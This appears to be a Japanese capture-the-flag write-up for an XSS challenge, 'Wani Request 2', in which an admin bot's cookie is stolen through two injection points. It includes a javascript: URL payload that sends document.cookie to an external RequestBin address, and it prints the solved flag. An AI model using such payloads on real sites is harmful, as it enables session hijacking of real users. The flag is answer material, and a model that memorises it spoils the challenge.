




# Wani Request 2 (250pt Normal)
# 問題文
XSS Challenge !!

https://request2.web.wanictf.org/

チャレンジは二つです。

あどみんちゃんのクッキーを手に入れてください。

Wani Request 1 と同じくRequestBinなどを利用してみましょう。

# やったこと
与えられたリンクにアクセスすると
二つのチャレンジがあることがわかった．

## チャレンジ1

まず1つ目のチャレンジ


あどみんちゃんが
"https://request2.web.wanictf.org/page1?wani="
にアクセスするっぽい．

waniでXSSを発生させてあどみんちゃんのCookieをRequestBinに送信させる．

ちょっと試行錯誤した結果以下の入力でXSSを発生させることができた．

```

```

送信したらフラグの前半部分が送られてきた



FLAG{y0u_4r3_x55

## チャレンジ2
2つ目のチャレンジ


入力したURLにアクセスするっぽい．

以下の入力でXSSを発生させることができた．

```
javascript:location.href="http://requestbin.net/r/b0xs5izm?"+document.cookie
```

送信したらフラグの後半部分が送られてきた．

-60d_c75a4c80cf07}

合体させると一つのフラグになる．

# フラグ
FLAG{y0u_4r3_x55-60d_c75a4c80cf07}

